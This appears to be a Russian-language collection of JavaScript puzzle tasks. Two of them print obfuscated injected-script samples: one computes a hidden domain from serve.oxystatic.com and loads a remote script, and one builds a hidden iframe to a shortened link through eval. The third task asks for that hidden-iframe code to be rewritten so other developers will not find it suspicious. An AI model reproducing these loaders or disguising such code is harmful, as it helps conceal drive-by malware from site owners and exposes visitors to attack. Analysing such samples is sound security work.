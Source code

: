 Здесь будет различная подборка тестовых заданий, которые я встречал. 


# 1) задание первое:
раздуть код 
```javascript
name='foo';alert(window.name);
```
до одного килобайта.

# 2) задание второе:
Объяснить, с какого адреса данный код
```javascript
<script type="text/javascript" id="73901220182">
(function(d,c,b,a,e){
 with(new Image)onload=function(){with(this)a.push((1E6+1E3*width+1*height+a).slice(-6).replace(/\d{2}/g,
function(a){return"%"+(+a+97).toString(16)+c.split("")[a%6]})),a.push("com"),a=["/",unescape(a.join(".")),
[(new Date).getTime(),b.domain,e,0].join(",")],b.body.appendChild(b.createElement(c)).src=a.join(a[0])},src=d
})("http://serve.oxystatic.com/init","script",document,[],73901220182)
</script>
```
подгрузит скрипт, и почему.

# 3) задание третье:
Почему код по ссылке
```javascript
var _0x371a=["\x30\x2E\x31\x7C\x7C\x30\x2E\x35\x28\x27\x3C\x31\x3E\x27\x29\x3B\x32\x3D\x30\x2E\x31\x2E\x36\x28\x30\x2E\x34\x28\x27\x33\x27\x29\x29\x3B\x32\x2E\x37\x3D\x27\x38\x3A\x2F\x2F\x64\x2E\x63\x2F\x62\x27\x2C\x32\x2E\x39\x2E\x61\x3D\x27\x65\x27\x3B","\x7C","\x73\x70\x6C\x69\x74","\x64\x6F\x63\x75\x6D\x65\x6E\x74\x7C\x62\x6F\x64\x79\x7C\x6E\x73\x6F\x64\x6B\x7C\x69\x66\x72\x61\x6D\x65\x7C\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74\x7C\x77\x72\x69\x74\x65\x7C\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64\x7C\x73\x72\x63\x7C\x68\x74\x74\x70\x7C\x73\x74\x79\x6C\x65\x7C\x64\x69\x73\x70\x6C\x61\x79\x7C\x31\x32\x33\x34\x35\x36\x7C\x67\x6C\x7C\x67\x6F\x6F\x7C\x6E\x6F\x6E\x65","\x5C\x62","\x67","\x72\x65\x70\x6C\x61\x63\x65"];eval(function(_0x1019x1,_0x1019x2,_0x1019x3,_0x1019x4,_0x1019x5,_0x1019x6){while(_0x1019x3--){if(_0x1019x4[_0x1019x3]){_0x1019x1=_0x1019x1[_0x371a[6]]( new RegExp(_0x371a[4]+_0x1019x3.toString(_0x1019x2)+_0x371a[4],_0x371a[5]),_0x1019x4[_0x1019x3])}};return _0x1019x1;}(_0x371a[0],15,15,_0x371a[3][_0x371a[2]](_0x371a[1])));
```
выглядит подозрительно?
Переписать его так, чтобы он больше не вызывал подозрений у других разработчиков.
